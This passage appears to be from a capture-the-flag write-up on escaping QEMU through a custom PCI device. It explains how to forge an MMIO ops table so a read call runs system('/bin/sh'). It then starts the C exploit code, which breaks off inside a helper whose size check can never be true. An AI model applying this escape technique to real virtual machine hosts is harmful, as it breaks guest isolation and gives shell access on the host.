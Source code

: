 To achieve the goal of a QEMU escape, we create a `fake_ops` and overwrite `mmio.ops` with `fake_ops` to gain a shell. The steps are as follows:

- Overwrite `mmio.ops` with the address of `fake_ops`.
    - `fake_ops` is created at the `0x0` offset of the buffer.
    - Only modify the read part of `mmio.ops` to point to `system`, while keeping the write part (since write is needed to set the `rdi` argument).
- Set `mmio.opaque` to point to the string `/bin/sh`.
    - When executing functions within `ops` like `mmio.ops->read`, `mmio.opaque` is passed as the rdi argument.
    - Therefore, we need to write the `/bin/sh` string somewhere on the heap and then modify `mmio.opaque` to point to it.
<br>

> By collecting appropriate ROP gadgets, you can modify ops->valid.accepts and craft a ROP chain to achieve the desired outcome
{: .prompt-tip }
<br>

Here is the full exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/mman.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/uio.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>
#include <assert.h>
#include <sys/stat.h>
#include <stddef.h>

#define MMIO_SET_OFFSET    offsetof(struct PCIBabyDevReg, offset)
#define MMIO_SET_DATA      offsetof(struct PCIBabyDevReg, data)
#define MMIO_GET_DATA      offsetof(struct PCIBabyDevReg, data)

#define BABY_PCI_VENDOR_ID 0x4296
#define BABY_PCI_DEVICE_ID 0x1338
#define PAGE_SIZE 0x1000

struct PCIBabyDevReg {
	off_t offset;
	uint32_t data;
};

int64_t read_mem(void *mem, int64_t offset){
    int64_t data;

    *(uint64_t *)((void*)mem + MMIO_SET_OFFSET) = offset;
    data = *(uint32_t *)((void*)mem + MMIO_GET_DATA);

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 4;
    data += (uint64_t)*(uint32_t *)((void*)mem + MMIO_GET_DATA) << 0x20;

    return data;
}

void write_mem(void *mem, int64_t offset, uint64_t data, int size){
    if (size == 4 && size == 8){
        return;
```